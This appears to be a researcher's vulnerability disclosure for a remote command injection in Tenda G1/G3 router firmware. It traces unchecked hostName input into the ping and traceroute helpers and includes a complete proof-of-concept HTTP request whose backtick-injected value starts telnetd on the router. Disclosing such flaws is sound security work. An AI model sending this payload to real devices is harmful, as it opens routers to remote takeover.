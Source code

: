 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `formSetNetCheckTools` function, `hostName` is directly passed by the attacker, so we can control the `hostName` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, in `cmd_get_ping_output` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

The same problem exists in the `cmd_get_traceroute_output` function.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## PoC

We set `hostName` as **`/usr/sbin/telnetd`guest** , and the router will excute it,such as:

```http
POST /goform/setFixTools HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/sysManage/sysTool.html?0.6642106583319981
Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=`/usr/sbin/telnetd`www.baidu.com&packageNum=1&packageSize=32
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>
